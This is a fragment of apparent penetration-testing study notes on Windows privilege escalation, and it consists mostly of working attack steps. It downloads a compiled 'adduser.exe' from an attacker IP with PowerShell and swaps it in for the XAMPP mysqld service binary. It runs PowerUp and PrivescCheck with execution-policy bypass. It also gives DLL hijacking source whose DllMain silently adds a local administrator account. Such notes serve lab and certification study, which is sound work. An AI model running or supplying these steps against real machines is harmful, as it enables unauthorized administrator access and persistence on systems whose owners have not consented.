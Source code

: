 ```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```ps1
iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
##### Restarting the system
```ps1
shutdown /r /t 0
```
_need to be done to push the changes done on service binary hijacking_

### Automating the Windows Privilege Escalation 
[god level tool powerup and priveesccheck]

### Dot sourcing the powershell script
```ps1
. .\PowerUp.ps1
```

also you can use import for the same like
```ps1
Import-Module PowerUp.ps1
```

## Dot Sourcing the script
```ps1
. .\PrivescCheck.ps1; Invoke-PrivescCheck
```

```
powershell -ep bypass -Command ". ./priv.ps1; Invoke-PrivescCheck"
```
### Powerup 
```ps1
Invoke-Allchecks
```
_after dot sourcing or importing the powerup module ps1 script_

### DDL hijacking 
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user astute Test@123 /add");
  	    i = system ("net localgroup administrators astute /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
```